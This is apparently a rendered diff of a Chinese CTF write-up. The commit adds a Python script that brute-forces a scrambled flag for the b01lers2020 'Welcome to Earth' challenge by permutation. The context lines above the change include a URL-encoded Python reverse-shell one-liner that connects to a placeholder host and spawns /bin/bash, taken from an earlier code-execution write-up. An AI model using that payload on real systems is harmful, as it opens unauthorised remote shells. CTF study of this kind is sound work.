

Before and after one commit to 181726943/writeup, a Markdown page: ctf-wp.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
b01lers2020 Welcome to Earth(python 排列组合库)

````diff
--- a/ctf-wp.md
+++ b/ctf-wp.md
@@ -4149,3 +4149,25 @@ url解码之后就是 `?code=phpinfo();`
         ```bash
         python%20-c%20%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%22xx.xx.xx.xx%22,8080));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/bash%22,%22-i%22]);%27
         ```
+
+## b01lers2020 Welcome to Earth(python 排列组合库)
+
+根据js代码一步一步获得下一页面路径，最终得到打乱的flag,由于不知道key，所以没办法逆推出来，只能爆破。
+
+```python
+from itertools import permutations
+import re
+
+flag = ["{hey", "_boy", "aaaa", "s_im", "ck!}", "_baa", "aaaa", "pctf"]
+
+# 对flag中的内容进行排列组合
+item = permutations(flag)
+
+# 遍历
+for i in item:
+    k = ''.join(list(i))
+    # 匹配
+    if re.search('^pctf\{hey_boy[a-zA-Z_]+ck!\}$',k):
+    # if k.startswith('pctf{hey_boy') and k[-1] == '}':
+        print(k)
+```
````
